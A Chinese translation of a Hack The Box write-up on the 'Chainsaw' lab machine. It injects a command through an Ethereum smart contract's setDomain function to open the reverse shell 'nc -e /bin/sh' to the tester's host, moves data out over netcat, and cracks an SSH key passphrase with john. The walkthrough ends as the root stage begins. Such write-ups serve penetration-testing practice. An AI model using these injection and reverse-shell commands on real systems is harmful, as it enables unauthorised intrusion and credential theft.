# hack the box——电锯

> 原文：<https://infosecwriteups.com/chainsaw-hackthebox-6b882d6ef5d1?source=collection_archive---------1----------------------->



hackthebox.eu

这是一篇关于我如何从黑客盒子里破解电锯的文章。

[Hack the Box](http://hackthebox.eu) 是一个在线平台，你可以在这里练习渗透测试技能。

像往常一样，我试图解释我是如何从机器上理解这些概念的，因为我想真正理解事物是如何工作的。所以请，如果我误解了一个概念，请让我知道。

# 关于盒子:

这个盒子是我最喜欢的黑客盒子之一。它要求你与一个以太坊客户端交互，这个客户端有一个智能契约，你可以将它武器化来执行代码。然后，我搜索了加密的、可以通过约翰破解的分布式私钥。为了获得 root，我使用了一种路径劫持技术，因为设置了 setuid 位的二进制文件在没有绝对路径的情况下调用 sudo。

# 侦察:

我首先通过调用命令运行初始 nmap 扫描，将其保存到我的 nmap 目录:



开放端口是 nmap 无法识别的 21(vsftpd 3.0.3)、22(OpenSSH 7.7p1)和 9810。寻找 vsftpd 3.0.3 和 OpenSSH 7.7p1 的漏洞，我发现现在没有一个是有用的。

## 端口 21(vsFTPD 3.0.3):

我尝试匿名登录 FTP。我看到 3 个文件分别叫做 **WeaponizedPing.json** 、 **Weaponized.sol** 和 **address.txt** 。我下载文件。



## 端口 9810

然后，我使用 curl 检查端口 9810，结果连接被拒绝。



## 正在读取 address.txt:

它包含十六进制字符，对我来说还没有意义。

```
root@kali:~/htb/boxes/chainsaw-10.10.10.142/writeup# cat address.txt 
0xB5DE84a38C87Fda17db862B29e080288C22Afd70
```

## 阅读 Weaponized.json:

读取 json 文件的初始行:



突出的有以下几个:contractName、getDomain 和 setDomain。源代码也与“pragma solidity 0.4.24”匹配，源代码路径是/opt/weaponed ping/weaponed . sol。



我在网上查了一下 pragma 的可靠性，得到的结果如下:



我在[https://solidity.readthedocs.io/en/v0.4.24/](https://solidity.readthedocs.io/en/v0.4.24/)找到一个文档文件。因为我还没有发现什么有趣的东西，所以我检查了另一个文件。

## 阅读 Weaponized.sol:

检查 Weaponized.sol 的内容，我看到一个 getDomain 函数和接受 string_value 的 setDomain。

```
pragma solidity ^0.4.24;contract WeaponizedPing 
{
  string store = "google.com";function getDomain() public view returns (string) 
  {
      return store;
  }function setDomain(string _value) public 
  {
      store = _value;
  }
}
```

## 固态

所以 solidity 是一种面向契约的高级语言，用于实现智能契约。



查看智能合约介绍的链接，文件的格式类似于 Weaponized.sol，看来我是看对了。它还提到，它旨在针对以太坊虚拟机(EVM)。我还查看了智能合约的介绍:



由于端口 9810 对于 nmap 来说是未知的，我开始意识到它可能是以太坊运行的端口。

既然提到以太坊，我就调查了一下什么是以太坊。

## 以太坊

以太坊是一个区块链。如果您不熟悉区块链是如何工作的，那么有足够的资源供您深入研究。以太坊使用一种叫做以太(ETH)的原生加密货币。它是纯数字的，可以发送给世界上任何地方的任何人。以太坊是可编程的，这意味着它可以用来构建新的应用程序。

## Web3.py

在阅读了关于如何与区块链以太坊互动的文档后，我偶然发现了这个资源:

[](https://www.dappuniversity.com/articles/solidity-tutorial) [## 初学者智能合同开发速成班| Dapp 大学

### 今天我要告诉你如何开始使用 Solidity 编程，这样你就可以成为一名区块链开发者…

www.dappuniversity.com](https://www.dappuniversity.com/articles/solidity-tutorial) 

为了与以太坊区块链互动，我将使用 Web3.py 库。这是一个很好的学习资源:[https://www.dappuniversity.com/articles/web3-py-intro](https://www.dappuniversity.com/articles/web3-py-intro)

这允许我通过从区块链读取信息、向其写入新的交易数据或使用智能合约执行业务逻辑来与它进行交易。首先，我安装了 web3:

```
pip3 install web3
```

然后，我运行 Python3 解释器，并导入 Web3:

```
from web3 import Web3
```

然后我设置 url 变量指向链锯机器和以太坊客户端监听的端口:

```
url = "http://10.10.10.142:9810"
```

我启动了一个网络连接:

```
web3 = Web3(Web3.HTTPProvider(url))
```

然后检查我是否已连接:

```
print(web3.isConnected())
```



现在，我需要用 Python 表示我想要与之交互的智能契约。这可以通过提供代表“抽象二进制接口”的 ABI 和契约地址来完成。ABI 可以从 Weaponized.json 文件中找到，地址可以从 address.txt 中找到。ABI 如下所示:


然后我导入 json:

```
import json
```

然后我相应地设置了 ABI 和地址:

```
abi=json.loads('[{"constant": true,"inputs": [],"name": "getDomain","outputs":[{"name": "","type": "string"}],"payable": false,"stateMutability": "view","type": "function"},{"constant": false,"inputs": [{"name": "_value","type": "string"}],"name": "setDomain","outputs": [],"payable": false,"stateMutability": "nonpayable","type": "function"}]')address = "0xcB56afA7c7a86f4852cf9066DFBb71272d27eFdf"
```

然后，我用它的 Python 表示来定义契约:

```
contract = web3.eth.contract(address=address, abi=abi)
```

然后，我设置了一个 web3 默认帐户:

```
web3.eth.defaultAccount = web3.eth.accounts[0]
```

然后，我使用 set 函数设置 ping 将被发送到的域(来自智能合约):

```
print(contract.functions.setDomain('10.10.14.72').transact())
```


因为我能够执行 ping，并且看起来它被传递给 bash，所以我可以添加一个' & '并在它后面放置一个恶意命令，如下所示，这是一个反向 shell:

```
nc -e /bin/sh 10.10.14.72 9003
```

在 Python 解释器中运行该行:



然后，我作为用户管理员获得一个反向 shell，并使用 Python 适当地生成一个 tty:


请注意，每次机器启动时，地址都会改变。只需连接到 FTP 服务器，并从中下载 address.txt 文件。

## 管理员→鲍比

检查/home 下的用户目录，我看到两个用户，分别是 administrator 和 bobby。请注意，我没有 bobby 目录的读取权限:



在查看 administrator 目录下的内容时，我看到了一个链锯-emp.csv 文件。我使用 cat 将它传输到我的机器，并通过管道将其输出到 nc(netcat)。然后我检查文件的完整性:



打开电锯-emp.csv:

```
Employees,Active,Position
arti@chainsaw,No,Network Engineer
bryan@chainsaw,No,Java Developer
bobby@chainsaw,Yes,Smart Contract Auditor
lara@chainsaw,No,Social Media Manager
wendy@chainsaw,No,Mobile Application Developer
```

我看到了可能的用户名及其位置的列表。然后，我尝试阅读/etc/passwd 以获得关于用户的更多信息:



arti、lara、bryan 和 wendy 的默认 shell 似乎是/bin/false，这基本上意味着他们登录时没有 shell。还要注意，他们的主目录是不存在的，因为只有 administrator 和 bobby 目录在/home 下。Bobby 将/bin/bash 作为它的默认 shell。

我看到有一个 gen.py 文件和一个名为 pub:



```
administrator@chainsaw:/home/administrator/maintain$ cat gen.py
cat gen.py
#!/usr/bin/python
from Crypto.PublicKey import RSA
from os import chmod
import getpassdef generate(username,password):
        key = RSA.generate(2048)
        pubkey = key.publickey()pub = pubkey.exportKey('OpenSSH')
        priv = key.exportKey('PEM',password,pkcs=1)filename = "{}.key".format(username)with open(filename, 'w') as file:
                chmod(filename, 0600)
                file.write(priv)
                file.close()with open("{}.pub".format(filename), 'w') as file:
                file.write(pub)
                file.close()# TODO: Distribute keys via ProtonMailif __name__ == "__main__":
        while True:
                username = raw_input("User: ")
                password = getpass.getpass()
                generate(username,password)
```

似乎 gen.py 只是生成了一个私钥和公钥。请注意，有一个 TODO 表示通过 ProtonMail 分发密钥。

检查目录 pub，我看到了上述用户的现有公钥，但没有私钥。



有趣的是/。管理员目录下的 ipfs 文件夹。IPFS 代表星际文件系统。可以从这些资源中了解更多:[https://ipfs.io/](https://ipfs.io/)和[https://flyingzumwalt . git books . io/decentralized-we B- primer/install-ipfs/lessons/initialize-repository . html](https://flyingzumwalt.gitbooks.io/decentralized-web-primer/install-ipfs/lessons/initialize-repository.html)


因为这个目录下可能有文件，所以我运行 grep 来检查任何提到 bobby 的文件(因为要分发密钥)。

```
grep -r bobby .
```



注意，有一行有趣的内容提到了 bobby.key.enc 的文件名。我用 cat 读取文件:



我可以看到这是 it 部门发给 bobby 的一条关于他的 Ubuntu 服务器私有 RSA 密钥的消息。检查内容:



好像是 base64 编码的。我把它解码，然后把文件存到鲍比那里。



因为它是一个加密的私有密钥，所以我可以使用 ssh2john 将其转换为 john 可以破解的格式:



然后，我使用 john 破解私钥的密码:

```
john --wordlist=/usr/share/wordlists/rockyou.txt bobby.key.john
```


约翰破解了私钥，发现它使用了密码 **jackychain。**

然后，我尝试使用私钥登录，使用密码 jackychain:



我成功登录，现在可以读取 user.txt 了

```
bobby@chainsaw:~$ cat user.txt 
**af8d9df99**....
```

## bobby → root:

检查 bobby 目录下的文件时，我看到了一个名为 ChainsawClub 的二进制文件，它设置了 setuid 位和另一组 json 和 sol 文件。


我尝试执行二进制文件:


它要求输入用户名:



尝试用户名测试和密码测试后，它不工作。我所做的只是看到二进制的流程。

## 阅读链锯俱乐部. sol:



它有一个字符串用户名 nobody 和一个密码，看起来像一个散列。我检查函数，它比我从最初步骤(从 FTP)得到的 json 和 sol 文件更复杂。

